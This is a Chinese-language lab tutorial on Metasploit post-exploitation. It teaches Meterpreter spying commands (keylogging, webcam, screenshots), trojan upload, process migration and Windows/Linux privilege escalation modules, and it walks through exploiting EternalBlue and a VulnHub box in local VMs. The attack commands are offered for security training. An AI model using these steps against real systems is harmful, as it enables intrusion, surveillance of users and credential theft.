一旦我们成功拿到 Meterpreter 会话，就意味着我们已经建立了一条直通目标系统核心的隧道。Meterpreter 提供了大量强大的命令，可以让我们像操作本机一样操作目标机器。

##### 1. Meterpreter 常用基础命令

进入 session 后（`sessions -i ID`），我们可以执行以下常用操作。建议按照“**信息收集 -> 维持权限 -> 深度操作**”的逻辑来讲解。

**（1）基本信息与系统操作**
*   `sysinfo`：查看目标系统信息（系统版本、架构、计算机名）。
*   `getuid`：查看当前获取的权限用户是谁（如果是 System/Root 最好，如果是普通用户则需提权）。
*   `pwd` / `ls` / `cd`：查看当前目录、列出文件、切换目录（用法同 Linux）。
*   `shell`：**最常用的命令**。进入目标系统的标准命令行（Windows 下是 CMD，Linux 下是 Bash）。
    *   *注：输入 `exit` 可退回 Meterpreter 界面。*

**（2）文件操作（数据窃取与工具上传）**
*   `upload <本地文件路径> <目标路径>`：将攻击机的文件传到靶机。
    *   例：`upload /root/muma.exe C:\\Users\\Public\\muma.exe`
*   `download <目标文件路径> <本地路径>`：将靶机的文件下载回来。
    *   例：`download C:\\Users\\Administrator\\Desktop\\passwords.txt /root/loot/`

**（3）隐蔽与维持（进程迁移）**
*   **为什么要迁移？** 如果你利用的是 IE 浏览器的漏洞，当用户关闭 IE 时，你的 Shell 也会断开。我们需要把 Shell 搬家到一个常驻进程里（如 `explorer.exe` 或 `svchost.exe`）。
*   `ps`：列出目标正在运行的进程。重点关注 `explorer.exe`（Windows 桌面进程）的 PID。
*   `migrate <PID>`：将 Meterpreter 注入到指定 PID 的进程中。
    *   例：`migrate 1234`

**（4）间谍功能（仅供学习演示，严禁非法使用）**
*   `screenshot`：截取目标当前屏幕画面。
*   `keyscan_start`：开启键盘记录。
*   `keyscan_dump`：导出记录下的击键内容（可以看到用户输入的密码）。
*   `webcam_snap`：调用摄像头拍照。

##### 2. 提权 (Privilege Escalation)

通常我们利用漏洞拿到的 Shell 权限较低（如 IIS 用户或普通 User），很多操作（如读取 SAM 文件、修改注册表）受限。这时就需要**提权**。

在进行提权操作前，**必须**先使用 `background` 命令将当前的 Meterpreter 会话挂起到后台。

###### Windows 提权

Windows 提权通常有几种思路：内核漏洞、配置错误、UAC 绕过等。

**方法一：Getsystem（简单粗暴）**
Metasploit 自带的自动化提权命令，尝试利用多种技术（如命名管道模拟）直接提升到 SYSTEM 权限。
```bash
meterpreter > getsystem
## 如果显示 ...got system via technique 1，说明成功。
## 失败是常态，不要气馁，继续尝试下面的方法。
```

**方法二：UAC Bypass (绕过用户账户控制)**
如果你已经是管理员组的用户，但在操作时受到 UAC 限制，可以使用此模块。
*   `search bypassuac`
*   常用模块：`exploit/windows/local/bypassuac_injection`

**方法三：使用提权辅助模块（推荐）**
如果你不知道该用哪个漏洞提权，让 MSF 帮你检测。
1.  **挂起会话**：`background`（记住 Session ID，假设为 1）。
2.  **选用模块**：`use post/multi/recon/local_exploit_suggester`
    *   这个模块会自动根据目标的补丁情况，推荐可能成功的提权脚本。
3.  **设置参数**：`set SESSION 1`
4.  **运行**：`run`
5.  **利用结果**：如果检测出（例如 `exploit/windows/local/cve_2019_1458_wizardopium`），则直接 `use` 这个路径，设置 `SESSION` 并 `run`，即可获得一个新的 SYSTEM 权限 Shell。

###### Linux 提权

Linux 提权通常依赖于内核漏洞（如 Dirty Cow）、Sudo 配置错误或 SUID 程序。我们同样重点介绍使用 `local_exploit_suggester`。

**实战步骤：**
1.  **获取低权限 Shell**：假设你已经拿到了一个 Linux 的普通用户 Meterpreter 会话，输入 `getuid` 发现只是 `uid=1000(user)`。
2.  **挂起会话**：输入 `background`，将会话 ID 记下（假设为 2）。
3.  **加载辅助模块**：
    ```bash
    msf6 > use post/multi/recon/local_exploit_suggester
    ```
4.  **配置并运行**：
    ```bash
    msf6 post(multi/recon/local_exploit_suggester) > set SESSION 2
    msf6 post(multi/recon/local_exploit_suggester) > run
    ```
5.  **分析结果**：
    MSF 会输出一堆可能的漏洞路径（例如 `exploit/linux/local/cve_2016_5195_dirtycow` 或 `exploit/linux/local/sudo_baron_samedit`）。
    *   **Yes** 表示极大概率成功。
    *   **Potentially** 表示可能成功。
6.  **执行提权**：
    复制推荐的模块路径，使用该模块进行攻击。
    ```bash
    msf6 > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec # 举例：PwnKit 漏洞
    msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set SESSION 2
    msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > run
    ```
    如果成功，你将获得一个新的 session，输入 `getuid` 将显示 `uid=0(root)`。

**补充技巧（Linux）：**
在 Linux 中，除了用 MSF 自动提权，手动检查也很重要。进入 `shell` 后，可以尝试输入：
*   `sudo -l`：查看当前用户有哪些命令可以免密以 root 身份执行。
*   `uname -a`：查看内核版本，手动去 Google 搜索对应的 Exploit。

# 实战

## 题目一

### 准备

用到的镜像：[cn_windows_7_professional_with_sp1_x64_dvd_u_677031.iso](https://www.123865.com/s/TGmpTd-hE4W3)，安装完系统后需要进入并关闭防火墙。

使用的攻击机：运行在 VMWare 内的 Kali Linux。

攻击机和靶机使用 NAT 网络模式。

使用的漏洞为 MS17-010（永恒之蓝）漏洞。

### 过程

将 fscan-linux-amd64 复制进入 Kali Linux 的 home 内：

```sh
$ mv fscan-linux-amd64 fscan
$ sudo mv fscan /usr/local/bin # 用户自己的二进制可执行文件一般放这里 
$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.196.129  netmask 255.255.255.0  broadcast 192.168.196.255
        inet6 fe80::fe48:810f:32f6:8278  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:08:bd:1c  txqueuelen 1000  (Ethernet)
        RX packets 125  bytes 22057 (21.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 62  bytes 13496 (13.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
# 由此我们确认靶机在 192.168.196.0/24 这个子网
# 因此用 fscan 扫描这个子网

$ fscan -h 192.168.196.2-255
[9.3s] [*] NetInfo 扫描结果
目标主机: 192.168.196.128                                                                 
主机名: WIN-6CC0T7ERIAD                                                                   
发现的网络接口:                                                                           
   IPv4地址:                                                                              
      └─ 192.168.196.128                                                                  
[9.3s] [+] 发现漏洞 192.168.196.128 [Windows 7 Professional 7601 Service Pack 1] MS17-010
```

由此我们便完成了信息收集，发现了漏洞，接着我们可以使用 metasploit 利用这个漏洞。

```sh
$ msfconsole
msf > search MS17-010

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue
   
msf > use exploit/windows/smb/ms17_010_eternalblue # 使用这个攻击载荷
msf exploit(windows/smb/ms17_010_eternalblue) > show options # 查看这个载荷需要填的参数
# 发现只有 RHOSTS 是 Required，即必填的，我们填上靶机 IP
msf exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.196.128
RHOSTS => 192.168.196.128

# 然后运行载荷
msf exploit(windows/smb/ms17_010_eternalblue) > run
```

攻击成功后，我们获得了一个 meterpreter 的 session，meterpreter 相较于 shell，功能更加的多，包括但不限于上传文件、调用摄像头、提权和迁移到别的进程等，具体的可以查阅相关教程，此处不再赘述。


## 题目二

### 准备

[靶机](https://www.vulnhub.com/entry/tr0ll-1,100/)

[题解](https://docs.qq.com/doc/DVFhUeWhSQ2NTbUtI)

将靶机压缩包解压之后双击 vmx 文件，用 VMWare 导入靶机，默认网络适配器为桥接模式，这里按个人习惯改成 NAT 模式。启动虚拟机即可完成部署。


该靶机是一个 CTF 环境，目的是获得 root 权限并从 /root 目录获取到 Proof.txt。核心内容是**提权**，因此在这里我略去获取 SSH 账号和密码的步骤，直接给你：
- 账号：overflow
- 密码：Pass.txt

### 过程

这里仅包含附带题解中没有的借助 Meterpreter 的提权过程，需要注意，这个虚拟机本身有限制：crontab 进程每 2 分钟会执行 `/lib/log/cleaner.py`，清理一次 `/tmp` 目录，每 5 分钟会执行一次 `/opt/lmao.py`，关闭 overflow 用户的所有进程，因此需要迅速操作或是按照另一种方式尽快关闭这俩限制。

使用 scanner/ssh/ssh_login 获取 Shell session


使用 post/multi/manage/shell_to_meterpreter 将 Shell session 提升为 Meterpreter session。


通过 `post/multi/recon/local_exploit_suggester` 模块来查看可用的提权手段。


尝试 `exploit/linux/local/overlayfs_priv_esc`，但是有问题，没法一键提权。


换一条路，查看该模块信息，可以看到利用了漏洞号 37292 的漏洞。


使用 [searchsploit](https://tldr.inbrowser.app/pages/common/searchsploit) 也可以搜索这个[漏洞](https://www.exploit-db.com/exploits/37292)。


使用 searchsploit 把这个漏洞的利用代码下载到本地。


然后上传上去并编译执行，成功实现提权。


## 选做题目

- [红日靶场](https://www.cnblogs.com/Afa1rs/p/18870098)：自己部署的虚拟机靶场。
- [春秋云境](https://yunjing.ichunqiu.com/)：在线靶场，需要花钱。

相关的 WP 在网上比比皆是，可以参考进行学习。